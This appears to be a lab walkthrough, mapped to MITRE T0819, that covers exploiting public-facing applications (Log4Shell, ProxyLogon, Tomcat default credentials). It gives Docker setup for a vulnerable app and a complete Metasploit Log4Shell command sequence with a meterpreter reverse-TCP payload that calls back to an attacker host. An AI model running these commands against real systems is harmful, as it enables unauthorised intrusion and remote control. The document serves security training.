 # **Execution:**

\[ T0819 ] <https://attack.mitre.org/techniques/T0819/> 


## Objective:

After discovering the log4shell vulnerability and its http-header, the goal of this step is for the attacker to gain initial access to the victim's network by exploiting a vulnerability in an application or service that is exposed to the internet.


## MITRE Technique: T0819 - Exploit Public-Facing Application

This technique involves using an exploit to take advantage of a weakness in an application that is accessible from the internet. This could be a web server, web application, or any other service that can be reached from outside the organization's network.


## Tools/Services:

1. **Metasploit Framework:** A powerful tool used for developing and executing exploit code against a remote target machine. It includes a large collection of exploits, payloads, and auxiliary modules.

2. **Burp Suite:** A web vulnerability scanner and penetration testing tool that helps in identifying and exploiting web application vulnerabilities.


## Scenarios:

As this step in the scenario is, essentially, setting up a vulnerable public-facing service, we could do any of the following:


### **1 - CVE-2021-44228 (Log4Shell)**

#### **Description:**

The Log4Shell vulnerability affects the Apache Log4j 2 library, which is widely used for logging in Java applications. By sending a specially crafted request, an attacker can trigger the vulnerability to execute arbitrary code on the server.


#### **Tools/Services:**

- **Metasploit Framework:** Contains a module specifically for exploiting the Log4Shell vulnerability.

- **Python:** Can be used to craft and send the malicious request if you prefer a custom script.


### **2 - CVE-2021-26855 (ProxyLogon)**

#### **Description:**

The ProxyLogon vulnerability allows an unauthenticated attacker to execute arbitrary commands on a vulnerable Microsoft Exchange Server by sending a specially crafted request. This can result in remote code execution (RCE) and full control of the server.


#### **Tools/Services:**

- **Metasploit Framework:** Contains a module specifically for exploiting the ProxyLogon vulnerability.

- **Exchange Server:** A server running Microsoft Exchange that is vulnerable to this specific exploit.


### **3 - Exploiting Weak or Default Credentials in Apache Tomcat**

#### **Description:**

Apache Tomcat is an open-source implementation of the Java Servlet, JavaServer Pages, and Java Expression Language technologies. It's widely used to deploy Java-based web applications. Attackers often exploit weak or default credentials (admin/admin) to gain access to the Tomcat Manager application, which can be used to deploy or manage web applications on the server.


#### **Tools/Services:**

- **Metasploit Framework:** Contains modules for brute-forcing login credentials specifically for Tomcat.

- **Hydra:** A popular tool for brute-forcing login credentials for web applications.

- **Target Service:** Apache Tomcat with the Tomcat Manager application.


## Applying scenarios:

#### Log4Shell Attack - How it works

1. **Vulnerability Identification**: The Log4j library is used extensively in Java applications for logging purposes. A flaw in the JNDI (Java Naming and Directory Interface) lookup functionality allows remote code execution by injecting a JNDI URL into a log message.

2. **Exploit Execution**: The attacker sends a request containing a malicious JNDI URL. When the vulnerable application logs this request, the JNDI lookup mechanism fetches and executes the code from the attacker-controlled server.

3. **Remote Code Execution**: The code fetched via the JNDI URL is executed on the target server, giving the attacker control over the system. This can be used to deploy further payloads, access sensitive information, or pivot to other parts of the network.


#### Log4Shell Attack - Steps to Perform the Attack

#### **Prerequisites**

- Docker installed on the host machine.

- Metasploit framework installed on the attacker machine.


#### **Step 1: Setup the Vulnerable Application**

1. **Pull and Run the Docker Container** Execute the following command to run the vulnerable application with a volume connected to `/` of the host machine:

```
# super user privileges
sudo su
# start Docker container with the vulnerable application
docker run --name vulnerable-app --network host -v /:/root/ ghcr.io/christophetd/log4shell-vulnerable-app\@sha256:6f88430688108e512f7405ac3c73d47f5c370780b94182854ea2cddc6bd59929

```
**Explanation**:

- \--network host: Connects the container to the host's network.

- -v /:/root/: Mounts the host's root directory to the container's /root/ directory, giving access to all host data and simulating an application that runs in the target machine.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe_YsFlcVhkvd6jpqsZYdJ3L5zQK-hhJ0moP6OwYv9Pl-hv2vrtN-yM44ZBlZzpdbRJT268l61LruQuAE2HX0xNmi4A3tSabEML_M_JDQ1AE4CgCPcr-kJMnp7Z3BeaqFfKQH79GNI3E_R0KfN3vIiihEbL?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 3**: Step 1 - Log4Shell attack.


#### **Step 2: Exploit the Vulnerability using Metasploit**

1. **Start Metasploit** Launch the Metasploit console in the attacker machine.

2. **Select the Log4Shell Exploit Module** Use the Log4Shell exploit module.

3. **Set the Target and Payload** Configure the target URL and the payload for the exploi.:

4. **Execute the Exploit** Run the exploit to send the malicious request.

```
# step 1
sudo msfconsole
# step 2
use exploit/multi/http/log4shell_header_injection  
# step 3
setg HTTP_HEADER X-Api-Version
setg RHOSTS <target-ip>  # 10.208.89.15
setg RPORT <target-port> # 8080
setg SRVHOST <host-server-ip> # 10.208.5.100
setg SRVPORT <host-server-port> # 1389
setg TARGETURI <target url> # /
setg HTTP_SRVPORT <target http_port> # 8080
setg LHOST <listening ip - host ip> # 10.208.5.100
setg payload java/meterpreter/reverse_tcp
#step 4
exploit


```
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd6ZNXxMwob6Oi0GboJXDz-WnOkLEp1GR92mlkRGohPGSF0x2TzQOh6Pt_rmRmKk-6X0OwH0zdGteIvjM8qk-U2E9nxbCyJXfkYM-Of-rWkVK-QUTSiVPFTivQ25bfrWxZbwJDtV4rvuEafdnzNnUZfZ9Ny?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 4:** Log4Shell exploit options after setting.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXffUB-GmO40IUt7r4_cqAMCPdctShY55pK5FiJmTDFndtP0R5NYD0gOQrRvX-LLOIPQhp2AP7QUrqLYXv8I9YjDQk7A5JNUG3dZrgmQbaB42Awt9lP64yotjy3c3FvGS60edvubjfO9JuqNVBd4cqg2S2s?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 5:** Log4Shell exploit execution with successful remote execution.
